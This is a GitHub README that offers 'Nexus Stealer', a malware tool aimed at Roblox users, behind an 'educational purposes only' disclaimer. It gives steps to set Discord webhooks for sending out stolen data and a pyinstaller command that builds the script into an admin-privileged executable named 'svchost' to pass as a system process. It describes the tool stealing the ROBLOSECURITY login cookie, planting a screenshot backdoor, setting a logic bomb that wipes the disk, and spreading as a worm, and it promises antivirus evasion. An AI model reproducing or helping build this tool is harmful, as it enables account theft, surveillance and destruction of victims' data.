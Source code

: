 # NEXUS STEALER *V1.0.0*

**Disclaimer**: This code is provided for **educational purposes only**. I do not endorse or encourage any misuse, illegal activities, or damage caused by this code. By using this script, you agree that **you are solely responsible** for your actions. I bears no liability for any consequences arising from the use of this tool.

---

## Updates
**Version :** *V1.0.0*

- Official Public Release

## Following Update
**Version :** *V1.1.0*

- Better AV Evasion

---

## Installation and customization *(≈ 5-10 Minutes)*

- **YOU ABSOLUTELY NEED PYTHON >=3.10 *(Latest version recommended)***

- Change the :
```
COOKIE_WEBHOOK_URLS = ["1", "1_backup"]
SCREENSHOT_WEBHOOK_URLS = ["2", "2_backup"]
```
By 4 **DIFFERENT** discord webhooks

- Install the dependencies :
```
pip install psutil requests pywin32 pyautogui cryptography netifaces
```
- Convert to .exe :
```
pyinstaller --onefile --noconsole --hidden-import psutil --hidden-import requests --hidden-import pywin32 --hidden-import pyautogui --hidden-import cryptography --hidden-import netifaces --hidden-import win32crypt --hidden-import win32gui --hidden-import win32con --hidden-import win32process --hidden-import win32security --hidden-import win32api --hidden-import win32file --uac-admin --name svchost NexusStealer.py
```

---

## Explanation

When executed on a machine, the script will wait for a **Roblox Related** application to be oppened. He will then search the whole computer data and browser data in search of the roblox login cookie (ROBLOSECURITY). Once found, it will send the cookie to the designed webhook, leave behind him a backdoor that will send a screenshot of the targeted user desktop **every 30 Minutes** and leave another logic bomb that will continuisly check to see if the backdoor has been deleted, if yes, it will wipe the whole user computer from top to bottom. 

***DO NOT RUN THIS SCRIPT ON YOUR OWN MACHINE OR ON SOMEONE ELSE MACHINE WITHOUT THEIR CONSENT.***
**Ive implemented a WORM in the script, meaning that it will spread in the network through ip, usb and emails. Please be cautious of the uses of this script.**
